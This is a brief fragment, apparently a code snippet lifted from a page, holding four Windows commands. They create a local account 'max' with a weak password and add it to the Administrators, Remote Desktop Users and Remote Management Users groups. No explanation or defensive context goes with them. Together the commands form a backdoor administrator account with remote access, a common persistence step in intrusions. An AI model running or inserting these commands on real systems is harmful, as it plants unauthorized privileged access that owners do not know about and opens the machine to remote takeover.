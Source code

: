 net user max 1234567 /add

net localgroup administrators max /add

net localgroup "Remote Desktop Users" max /add

net localgroup "Remote Management Users" max /add